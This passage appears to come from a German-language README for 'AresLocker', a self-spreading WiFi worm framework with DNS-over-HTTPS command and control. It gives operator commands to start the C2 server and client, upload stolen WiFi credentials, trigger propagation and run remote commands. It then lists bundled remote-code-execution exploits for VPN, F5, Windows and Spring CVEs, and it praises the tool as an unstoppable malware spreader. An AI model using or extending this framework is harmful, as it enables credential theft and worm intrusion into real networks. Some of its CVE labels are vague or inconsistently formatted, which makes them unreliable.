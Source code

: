 ## 4. Verwendung

### 4.1 Server-Steuerung
```bash
# Server starten
python doh_server.py --config server_config.json

# Verfügbare Befehle:
wifi_upload  # Credentials hochladen
wifi_spread  # Verbreitung starten
wifi_scan    # Netzwerk-Scan
wifi_stats   # Statistiken anzeigen
```

### 4.2 Client-Operationen
```bash
# Client starten
python doh_client.py --config client_config.json

# Automatische Funktionen:
- Heartbeat-Kommunikation
- WLAN-Profil-Extraktion
- Netzwerk-Scanning
- Befehlsausführung
```

## Fazit

Das AresLocker Global Movement Framework ist die **erste vollständig autonome WiFi-Wurm-Technologie** mit DNS-over-HTTPS Command & Control. Es kombiniert drei revolutionäre Konzepte zu einer unaufhaltsamen Malware-Verbreitungsmaschine, die eine neue Ära in der Cyber-Sicherheit einleitet.

**Diese Technologie hat das Potenzial, die Art und Weise zu verändern, wie wir über Malware-Verbreitung denken. Sie ist gleichzeitig ein Meisterwerk der Technik und eine kritische Bedrohung für die Cybersicherheit, die neue Standards für Verteidigungsmaßnahmen setzt.**

---

## Verfügbare Exploits

### HTTP Exploits:
- `CVE_2019_11510` - Pulse Secure VPN RCE
- `CVE_2019_18935` - Telerik WebUI RCE
- `CVE_2020_5902` - F5 BIG-IP RCE
- `CVE_2021_22986` - F5 BIG-IP RCE
- `CVE_2021_31166` - Windows HTTP.sys RCE
- `CVE_2022_21907` - Windows HTTP Protocol Stack RCE

### HTTPS Exploits:
- `CVE_2022_22965` - Spring4Shell RCE
- `CVE_2025_0282` - HTTPS RCE
- `CVE-2023_34362` - HTTPS RCE
